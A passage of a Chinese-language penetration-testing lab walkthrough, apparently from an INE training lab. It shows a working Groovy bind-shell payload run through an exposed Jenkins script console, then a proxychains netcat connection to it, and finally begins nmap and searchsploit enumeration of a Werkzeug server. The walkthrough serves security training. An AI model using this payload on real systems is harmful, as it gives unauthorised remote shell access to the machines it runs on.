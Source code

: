发现此主机开放了8080端口，我们打开火狐，设置一下网络代理

![在这里插入图片描述](https://img-blog.csdnimg.cn/88487238ab61407db2cd720f3dab9c05.png)

然后访问目标主机的8080端口

![在这里插入图片描述](https://img-blog.csdnimg.cn/e8fad9e604924320b58396ecd573cbad.png)

发现网站框架是jenkins，利用起来就简单了，因为这个框架可以直接执行脚本，我们去到脚本控制台

![在这里插入图片描述](https://img-blog.csdnimg.cn/e1e4cf7ac42145f0b119fe6cf5b0634e.png)

因为这是另一个网段的机子，不能直接回连shell，但我们可以让他监听5555端口，然后我们主动用nc去连接

payload:
```
int port=5555;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

点击run

![在这里插入图片描述](https://img-blog.csdnimg.cn/e34023d1f692452495f254c449705077.png)

```
proxychains nc -v 192.218.55.3 5555
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a027956b78684f98a9166ac0cef3c356.png)
# 黑盒渗透测试3
这里给了三个网站
```
server1.ine.local
server2.ine.local
server3.ine.local
```
我猜测他们都相互有关联的，由于很简单，这里我就简单记录一下渗透的过程

首先用nmap枚举第一个网站
```
nmap -A -sS server1.ine.local
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/997474fd366a484996840ec50a5a0288.png)

发现网站的框架是werkzeug 版本为0.9.6

使用searchsploit搜索一下框架的漏洞
```
searchsploit werkzeug
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/90c44d5e9cae4c9d8ab82e2d4235b706.png)
